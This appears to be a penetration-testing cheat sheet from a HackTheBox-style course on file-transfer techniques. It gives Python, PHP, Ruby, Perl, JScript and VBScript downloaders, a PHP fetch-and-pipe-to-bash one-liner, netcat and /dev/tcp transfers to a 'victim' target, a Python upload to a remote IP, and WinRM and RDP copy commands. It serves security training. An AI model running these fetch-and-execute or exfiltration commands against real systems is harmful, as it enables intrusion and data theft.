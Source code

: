 # Transffering Files with Code

Windows default applications such as cscript and mshta can be used to execute JavaScript or VBScript code, the rest of the methods are mostly for Linux.

## Python

Download files with Python2 or Python3:
```shell-session
[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("<URL>", "<output file name>")'

[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("<URL>", "<output file name>")'
```

## PHP

Use PHP with the [file_get_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download the file and [file_put_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save it to a directory:
```shell-session
[/htb]$ php -r '$file = file_get_contents("<URL>"); file_put_contents("<output file name>",$file);'
```

Use PHP to read URL's content and save it into a file:
```shell-session
[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("<URL>", "rb"); $flocal = fopen("<file name>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

PHP Download a file and pipe it to Bash:
```shell-session
[/htb]$ php -r '$lines = @file("<URL>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Note:** The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

## Other Languages

Download a file with Ruby:
```shell-session
[/htb]$ ruby -e 'require "net/http"; File.write("<output file name>", Net::HTTP.get(URI.parse("<URL>")))'
```

Download a file with Perl:
```shell-session
[/htb]$ perl -e 'use LWP::Simple; getstore("<URL>", "<output file name>");'
```

## JavaScript

Save the following script into a .js file:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

From CMD or PowerShell download a file using the script:
```cmd-session
C:\htb> cscript.exe /nologo wget.js <URL> <output file name>
```

## VBScript

Save the following scripts into a .vbs file:
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

From CMD or PowerShell download a file using the script:
```cmd-session
C:\htb> cscript.exe /nologo wget.vbs <URL> <output file name>
```

## Upload Operations Using Python3

The Python3 requests module allows you to send HTTP requests.

Start the python uploadserver module:
```shell-session
[/htb]$ python3 -m uploadserver 
```

Upload a file from another machine:
```shell-session
[/htb]$ python3 -c 'import requests;requests.post("http://<ip address>:8000/upload",files={"files":open("<file path>","rb")})'
```

# Miscellaneous File Transfer Methods

## Netcat Inbound

Listening on port 8000 from the target:
```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > <output file name>

victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > <output file name>
```

Send the file to the target:
```shell-session
[/htb]$ wget -q <URL>

[/htb]$ # Example using Original Netcat
[/htb]$ nc -q 0 <ip address> 8000 < <file name>

[/htb]$ # Example using Ncat
[/htb]$ ncat --send-only <ip address> 8000 < <file name>
```

## Netcat Outbound

Send file as input to Netcat, useful when inbound connections are blocked by the firewall:
```shell-session
Wildland4958@htb[/htb]$ # Example using Original Netcat
Wildland4958@htb[/htb]$ sudo nc -l -p 443 -q 0 < <file name>

Wildland4958@htb[/htb]$ # Example using Ncat
Wildland4958@htb[/htb]$ sudo ncat -l -p 443 --send-only < <file name>
```

Connect to Netcat from the target machine to receive the file:
```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc <ip address> 443 > <file name>

victim@target:~$ # Example using Ncat
victim@target:~$ ncat <ip address> 443 --recv-only > <file name>

Wildland4958@htb[/htb]$ # If the target machine doesn't have Netcat or Ncat
victim@target:~$ cat < /dev/tcp/<ip address>/443 > <file name>
```

## PowerShell Session File Transfer

We can use PowerShell Remoting(WinRM), for this we will need administrative access or to be part of the Remote Management Users group or explicit permissions in session configuration.

Confirm you can connect to WinRM:
```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

Create a remote session to the target:
```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName <computer name> // Might need credentials
```

Copy a file from localhost to the target:
```powershell-session
PS C:\htb> Copy-Item -Path <source path> -ToSession $Session -Destination <destination path>
```

Copy file from the target to localhost:
```powershell-session
PS C:\htb> Copy-Item -Path "<source path>" -Destination <destination path> -FromSession $Session
```

## RDP

You can use copy paste or mount a folder.

Mounting a Linux folder using rdesktop:
```shell-session
Wildland4958@htb[/htb]$ rdesktop <ip address> -d <domain> -u <username> -p '<password>' -r disk:linux='<folder path>'
```

Mounting a Linux folder using xfreerdp:
```shell-session
Wildland4958@htb[/htb]$ xfreerdp /v:<ip address> /d:<domain> /u:<username> /p:'<password>' /drive:linux,<folder path>
```

Now from the target Windows machine you can connect trough \\tsclient\ or us mstsc (Local Resources -> More -> Drives).